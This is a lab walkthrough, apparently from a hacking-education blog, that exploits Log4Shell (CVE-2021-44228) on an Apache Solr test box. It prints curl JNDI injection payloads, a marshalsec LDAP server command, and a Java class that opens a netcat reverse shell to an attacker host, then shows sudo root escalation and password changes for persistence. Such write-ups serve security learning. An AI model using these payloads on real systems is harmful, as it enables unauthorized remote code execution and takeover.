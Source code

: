 ```yaml
---
published: true
---
```


With CVE-2021-44228 vulerability (Log4Shell) posing a major threat to Java applications hosted on the internet with a CVSS score of 10.0 critical designation. Remote code execution can be accomplished by taking advantage of a Java Naming and Directory Interface (JNDI) within Log4j logging packages. Solar provides a test scenairo for exploitation of vulnerability.  

----------

Legal Notice && Usage: *The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*
*By continuing, you acknowledge the aforementioned user risk/responsibilities.*

----------


# Reconnaissance

## Enumeration

Nmap scan:

    nmap -v -p- 10.10.212.184

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640108734185_image.png)





futher enumerate port 8983

    nmap -sV -p 8983 10.10.212.184

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105066145_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105737675_image.png)

# Discovery


## Http Server

navigate to `http://10.10.212.184:8983`

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105787116_image.png)


Argument set for `-Dsolr.log.dir` set to `/var/solr/logs`

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105901767_image.png)


**Downloaded Task Files**

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105925136_image.png)


within the `solr.log` file we can discover and example of the solr log file that is normally generated.

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105981072_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105970426_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106058730_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106016837_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106165663_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106156327_image.png)



# Proof of Concept

navigate to `http://10.10.212.184:8983/solr/admin/cores`

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106253666_image.png)



## log4j payload

    ${jndi:ldap://ATTACKERCONTROLLEDHOST}

**Creating a test scenario**

Adding a callback request from target to local attacking machine would allow a local listener to capture any incoming request

Listener setup on port 9999 locally and payload is sent via curl:

    curl 'http://10.10.212.184:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.159.175:9999\}'

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106763648_image.png)


successful connection from target system to attacking system can be established by crafted injection to the `?foo` parameter.


**setup local LDAP server**

    java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109159869_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109171679_image.png)


**craft java reverse shell** 
on attacking machine create an exploit.


    public class Exploit {
        static {
            try {
                java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }

compile java exploit code:

    javac Exploit.java -source 8 -target 8

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640107727782_image.png)


newly created `Exploit.class` file that will be hosted locally and sent to target via the jndi payload.

**send payload**

    curl 'http://10.10.212.184:8983/solr/admin/cores?foo=$\{jndi:ldap://10.6.124.83:1389/Exploit\}'

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109326110_image.png)
![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109333074_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109310919_image.png)



# Persistence

Establishing a foothold on box as `solr`

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109529895_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109516480_image.png)


Check sudo `sudo -l`

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109599279_image.png)


called `"/bin/bash"` with sudo for a root shell.

changing password of `solr` for the ability to ssh into target.
